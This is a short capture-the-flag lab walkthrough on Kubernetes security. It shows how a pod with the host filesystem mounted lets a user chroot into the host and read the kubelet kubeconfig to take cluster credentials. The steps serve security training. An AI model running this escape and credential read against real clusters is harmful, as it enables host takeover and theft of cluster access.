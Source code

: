 # K8S Security: Container Escape to Host

1. Lets apply our deployment.

```
kubectl apply -f 20_deployment_host_fs.yaml
```
_Enter the container._

[The most pointess Kubernetes command ever](https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/).


2. Get pods.
```
kubectl get pods
```
![pods](https://i.postimg.cc/tyYZxGz1/19-getpods.png)

3. Enter a pod.
```
kubectl exec -it challenge20-[POD ID] -- bash
```
4. List the file system.
```
ls
```
5. Lets cd into the /k8-host directory.
```
cd /k8-host
```
6. Then lets run `chroot` to change the root directory and get host privileges.
```
chroot . bash
```
![chroot](https://i.postimg.cc/MZSTcHbV/20-chroot.png)

7. We can now pull the certificates for the cluster. 

```
cat /var/lib/kubelet/kubeconfig
```

![kubeconfig](https://i.postimg.cc/WsbQNVr3/20-kubeconfig.png)


8. Poke around using the **ls** command and find the flag.

9. [Submit the flag.](https://devslop.ctfd.io/challenges#Challenge%2019-12). **Hint available.**

10. Exit
```
exit
```
11. Cleanup
```
kubectl delete -f 20_deployment_host_fs.yaml
```
